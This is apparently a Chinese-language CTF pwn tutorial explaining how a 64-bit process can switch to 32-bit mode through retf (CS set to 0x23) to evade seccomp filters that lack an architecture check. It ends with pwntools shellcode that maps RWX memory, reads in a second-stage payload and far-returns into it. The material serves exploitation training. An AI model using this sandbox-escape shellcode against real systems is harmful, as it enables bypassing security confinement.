 ### ***32位模式\***

32位模式即64位系统下运行32位程序的模式，此时CS寄存器的值为0x23。在该模式下，程序与在32位系统中运行几乎无异，即只能使用32位寄存器，所有指针必须为32位，指令集为32位指令集等。

与之相对地，64位模式对应的CS寄存器的值为0x33。

### ***进入32位模式\***

进入32位模式需要更改CS寄存器为0x23。retf (far return) 指令可以帮助我们做到这一点。retf指令相当于：

pop ip pop cs

需要注意的是，在使用pwntools构造shellcode时，需要指定retf的地址长度，即可以使用retfd和retfq。

#### 利用方式

因为进入32位模式后，sp, ip寄存器也会变成32位，所以需要将栈迁移至32位地址上；利用或构造32位地址的RWX内存段，写入32位shellcode；最后在栈上构造fake ip, cs，执行retf指令。

#### 利用条件

- 沙箱中不包含对arch==ARCH_x86_64的检测
- 存在或可构造32位地址的RWX内存段

```
mmap = '''
xor rax, rax
mov al, 9
mov rdi, 0x602000
mov rsi, 0x1000
mov rdx, 7
mov r10, 0x32
mov r8, 0xffffffff
mov r9, 0
syscall'''

read = '''
mov rax, 0
xor rdi, rdi
mov rsi, 0x602190
mov rdx, 100
syscall'''

retf = '''
xor rsp, rsp
mov esp, 0x602160
mov DWORD PTR [esp+4], 0x23
mov DWORD PTR [esp], 0x602190
retf
'''
sc = mmap + read + retf
f = asm(sc)
p.sendline(f)
```
